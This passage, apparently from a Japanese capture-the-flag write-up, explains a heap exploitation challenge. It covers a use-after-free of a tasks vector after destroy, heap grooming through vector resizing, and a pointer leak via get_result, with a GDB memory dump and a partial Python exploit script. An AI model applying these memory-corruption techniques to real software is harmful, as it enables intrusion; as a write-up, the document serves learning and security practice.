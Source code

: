 肝心のスタック変数の差し替えですが、この問題では差し替え方が2通りに限定されています。

1. タスクAを`slow_algo_factory`で生成し、別のタスクBを`resume`すると、直前に生成したタスクAのAlgo構造体が`algo_l`として呼ばれる。
2. タスクAを`destroy`し、別のタスクBを`resume`すると、消したタスクAの*Task*構造体があったアドレスへのポインタが`algo_l`として呼ばれる。（正確には`destroy`のパスで使われている`tasks.begin()+index`の戻り値）

自由に値を入れ替えらえる2.を使いたいので、どうにかして`destroy`を呼び出した後にポインタ先をいい感じに書き換えたいです。1.があるので`slow_algo_factory`を使ったタスク生成はできませんが、`fast_algo_factory`は同じようにタスクを生成しますがスタックの深さの違いで影響しないようになっていますので、これを利用してヒープを編集します。

ヒープ編集のアイデアですが、2.のポインタは`tasks`というベクタの中を指します。よってタスクを増やしてサイズを伸ばしてあげることでresizeされて、いい感じになっているチャンクを`tasks`に使わせたり、逆に元のチャンクが使えるようになります。

## リーク
`get_result`を使ったリークですが、先ほど書いた通り、`task[index]`から+0x48のところにポインタ、+0x50のところにいい感じの整数が並んでいれば、そのポインタがstringとして解釈されて出力を得られます。適当にいろんなアルゴリズムのタスクを生成してみてヒープを観察したところ、coinchangeのAlgo構造体がいい感じのメンバを持っています。

以下のようにパラメータを入れたとき、メモリマップはその下のようになります。ベクタが拡張した時のサイズである0x90のチャンクの下の方に、ポインタと、+8のところに要素数が入ります。

```
N: 10
Coins: 1 2 3 4 5 6 7 8 9 10
Amount to calculate: 13
```

```
0x555555578fa0: 0x0000000000000001      0x0000000000000091
0x555555578fb0: 0x0000555555565a68      0x0000555555578fc8
0x555555578fc0: 0x000000000000000b      0x616843206e696f43
0x555555578fd0: 0x000000000065676e      0x0000555555578fe8
0x555555578fe0: 0x000000000000000e      0x676c4120776f6c53
0x555555578ff0: 0x00006d687469726f      0x0000555555579008
0x555555579000: 0x0000000000000000      0x0000000000000000
0x555555579010: 0x0000000000000000      0x0000555555579560　<--
0x555555579020: 0x000000000000000a      0x000000000000000d
0x555555579030: 0x0000000000000000      0x0000000000000091
```

先にこの構造体を使ってfreeした後、tasksを拡張して、`resume`、`destroy`、`resume`の順に呼ぶことで、resizeした後のベクタにこのチャンクを使わせます。

リークまでのスクリプトは以下の通りです。（各関数はパラメータを入れているだけですので一旦省略）

10個目のタスクを追加する時に`tasks`のチャンクのサイズが0x50から0x90になるので、事前にcoinchangeのタスクをfreeしておいて、10個目を追加してresizeを起こしてこのチャンクへ移動させ、さらに4番目のアルゴリズムを`destroy`することで、そこから+0x48の上記のポインタを読ませます。

```python
coin([0x1111]*180, 0xbeef) # large chunk for leak
bubble([1])

fib(1)
fib(1)
fib(1)
bubble([1]) # place slow_algo to slot #5 --> #4 --> delete
fib(1)
fib(1)

destroy(0) # free 0x90
bubble([1])

fib(1)
fib(1) # resize tasks to 0x90

resume(7) # resume once
destroy(4) # corrupt algo_l
resume(6) # resume again
```
